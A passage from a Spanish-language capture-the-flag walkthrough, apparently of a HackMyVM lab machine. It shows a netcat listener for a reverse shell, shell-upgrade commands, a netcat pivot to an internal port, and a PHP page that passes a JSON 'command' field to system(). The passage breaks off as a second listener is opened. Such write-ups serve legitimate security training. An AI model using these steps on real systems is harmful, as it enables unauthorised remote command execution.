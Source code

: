 Y nos ponemos en escucha con ```nc -lvnp 443```

Nos mejoramos la shell con estos comandos

```
script /dev/null -c bash
```
then press CTRL + z

```
stty raw -echo;fg
reset
export TERM=xterm SHELL=bash
```

Viendo la maquina y buscando la forma de escalar hacia usuario podemos darnos cuenta que la pagina esta corriendo en el puerto 8000

```
ww-data@arroutada:/var/www/html/scout$ ss -nltp
State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port  Process  
LISTEN   0        4096           127.0.0.1:8000          0.0.0.0:*              
LISTEN   0        511                    *:80                  *:*
```

Ahora lo que podemos hacer es crear un proxy port con este comando

```
www-data@arroutada:/tmp$ nc -nlktp 8001 -c "nc 127.0.0.1 8000"
```

Y desde nuestra maquina atacante lanzamos un curl para ver que nos devuelve

```
curl "http://10.0.2.16:8001"              
<h1>Service under maintenance</h1>
<br>

<h6>This site is from ++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>---.+++++++++++..<<++.>++.>-----------.++.++++++++.<+++++.>++++++++++++++.<+++++++++.---------.<.>>-----------------.-------.++.++++++++.------.+++++++++++++.+.<<+..</h6>

<!-- Please sanitize /priv.php -->
```

Viendo esa cadena rara se que es brainfuck. Asi que voy a ver que nos quiere decir

https://www.dcode.fr/brainfuck-language

Basicamente nos dice ``all HackMyVM hackers!!``

Ahora viendo el directorio que nos propone 

```
❯ curl "http://10.0.2.16:8001/priv.php"
Error: the "command" parameter is not specified in the request body.

/*
$json = file_get_contents('php://input');
$data = json_decode($json, true);

if (isset($data['command'])) {
    system($data['command']);
} else {
    echo 'Error: the "command" parameter is not specified in the request body.';
}
*/
```
El script nos dice que esta esperando un command
Entonces nos ponemos en escucha por el pueto 8002
